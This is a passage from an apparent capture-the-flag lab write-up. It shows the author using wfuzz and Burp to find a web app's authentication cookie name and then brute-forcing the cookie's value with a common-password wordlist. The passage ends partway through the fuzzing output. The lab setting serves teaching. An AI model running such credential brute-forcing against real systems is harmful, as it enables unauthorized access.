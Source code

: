     ********************************************************
    * Wfuzz 2.3.1 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.86:8080/
    Total requests: 2588

    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================

    000005:  C=200     14 L       29 W          324 Ch        "password"

    Total time: 6.539661
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 395.7391



I'll jump over to burp, find a GET on `/`, and send it to repeater. I'll
add a cookie with password and an arbitrary value:



    GET / HTTP/1.1
    Host: 10.10.10.86:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: password=0xdf
    Upgrade-Insecure-Requests: 1



The response back has a new error message:

> Access denied: password authentication cookie incorrect

So I've found the cookie name. Now I need to try to find the value. I'll
use `wfuzz` again, this time hiding 324 character responses with
`--hh 324`, since that's the error message when the cookie is incorrect.
This reveals that the password is "secret":



    root@kali# wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -H "Cookie: password=FUZZ" --hh 324 http://10.10.10.86:8080

    ********************************************************
    * Wfuzz 2.3.1 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.10.86:8080/
    Total requests: 10000

    ==================================================================
    ID   Response   Lines      Word         Chars          Payload    
    ==================================================================
